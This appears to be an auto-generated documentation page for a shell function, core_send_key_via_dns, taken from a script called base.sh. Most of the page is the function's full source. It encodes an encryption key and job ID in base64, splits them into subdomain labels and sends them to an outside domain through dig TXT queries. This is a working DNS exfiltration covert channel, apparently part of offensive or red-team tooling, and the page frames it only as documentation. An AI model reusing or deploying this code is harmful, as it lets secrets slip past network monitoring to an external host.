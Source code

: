 # Send Key Via Dns

### Purpose
core_send_key_via_dns function implementation from base.sh.

### Dependencies
| Type | Name | Value |
|------|------|-------|
| Global Variable | `CMD_BASE64` | "base64" |
| Global Variable | `CMD_DIG` | "dig" |
| Global Variable | `CMD_PRINTF` | "printf" |
| Global Variable | `CMD_SLEEP` | "sleep" |
| Global Variable | `ENCRYPT` | "none" |
| Global Variable | `ENCRYPT_KEY` | "" |
| Global Variable | `JOB_ID` | "" |
| Function | `core_debug_print()` | For debug print |
| Function | `core_send_key_via_dns()` | For send key via dns |
| Command | `tr` | For tr operations |

<details>

```shell
core_send_key_via_dns() {
local domain="$1"
    local encrypted_key=""
    
                if [ "$ENCRYPT" != "none" ] && [ -n "$ENCRYPT_KEY" ]; then
                    # Convert key to base64 DNS-safe format
                    local dns_safe_key
                    dns_safe_key=$("$CMD_PRINTF" '%s' "key:$ENCRYPT_KEY:$JOB_ID" | $CMD_BASE64 | tr '+/' '-_' | tr -d '=')
                    
                    # Include key in subdomain (chunked if necessary to respect DNS label length limits)
                    local key_chunk_size=40  # DNS labels are limited to 63 chars
                    local key_chunk="${dns_safe_key:0:$key_chunk_size}"
                    
                    # Send key via DNS TXT query - use only domain part, not full URI
                    if ! $CMD_DIG $CMD_DIG_OPTS "k-$JOB_ID-$key_chunk.${domain}" TXT > /dev/null 2>&1; then
                        core_debug_print "Failed to send encryption key via DNS TXT record, continuing anyway"
                    else
                        core_debug_print "Encryption key chunk 1 sent via DNS TXT record"
                    fi
                    
                    # If key is longer than one chunk, send additional chunks
                    if [ ${#dns_safe_key} -gt $key_chunk_size ]; then
                        local key_chunk2="${dns_safe_key:$key_chunk_size:$key_chunk_size}"
                        if [ -n "$key_chunk2" ]; then
                            $CMD_DIG $CMD_DIG_OPTS "k2-$JOB_ID-$key_chunk2.${domain}" TXT > /dev/null 2>&1
                            core_debug_print "Encryption key chunk 2 sent via DNS TXT record"
                            $CMD_SLEEP 0.1
                        fi
                    fi
                    
                    # Brief pause after sending key
                    $CMD_SLEEP 0.2
                fi
    
    "$CMD_PRINTF"  "$encrypted_key"
}
```

</details> 
